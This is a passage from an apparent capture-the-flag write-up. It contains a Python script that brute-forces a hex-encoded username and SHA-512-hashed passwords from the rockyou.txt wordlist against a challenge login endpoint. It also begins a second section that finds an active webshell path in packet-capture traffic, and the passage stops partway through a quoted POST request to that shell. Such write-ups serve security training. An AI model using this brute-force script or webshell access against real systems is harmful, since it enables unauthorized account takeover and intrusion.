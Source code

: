 ```shell
$ http GET 'http://35.234.65.24:31441/auth?name=61646d696e&password=c7ad44cbad762a5da0a452f9e854fdc1e0e7a52a38015f23f3eab1d80b931dd472634dfac71cd34ebc35d16ab7fb8a90c81f975113d6c7538dc69dd8de9077ec'
HTTP/1.1 200 OK
Content-Length: 12
Content-Type: text/plain; charset=utf-8
Date: Mon, 07 Dec 2020 16:28:21 GMT

Invalid user
```

Now we need to find a valid username, so why not just try `Alex`? After converting this to hex we can send a new request. This time we get `Invalid password`.

At this point I decided to write a script that bruteforces the password. It iterates over a wordlist and hashes each password with sha512 and tries to log in.

```python
#!/usr/bin/env python3
import requests
import sys
import hashlib
from binascii import hexlify, unhexlify

username = hexlify(b"Alex")

with open(sys.argv[1], "r") as wlist:
    for pw in wlist:
        h = hashlib.sha512(pw.strip().encode())
        
        params = {
            "name": username,
            "password": h.hexdigest()
        }
        r = requests.get("http://34.89.250.23:32506/auth", params=params)
        if "Invalid password" not in r.text:
            print(r.text)

print(r.text)
```

I then ran the script using the infamous `rockyou.txt` wordlist. After some time we get a successful login and the flag!

`CTF{bf3dd66e1c8e91683070d17ec2afb13375488eee109a0724bb872c9d70b7cc3d}`


### notor
Searching for all HTTP events with status code 200, since it is seen alot of directory bruteforcing. Found the following request when seeing 200 response with interesting large size:
```/shelladsasdadsasd.html.php```. Testing this path on the target server, shows that the webshell is active. 

Seeing traffic related to this path in the pcap, the following interesting response was found:
```
POST /shelladsasdadsasd.html.php?feature=shell HTTP/1.1
Host: h:1234
Connection: keep-alive
Content-Length: 328
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
DNT: 1
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://h:1234
Referer: http://h:1234/shelladsasdadsasd.html.php
Accept-Encoding: gzip, deflate
Accept-Language: ro-RO,ro;q=0.9,en-US;q=0.8,en;q=0.7,it;q=0.6
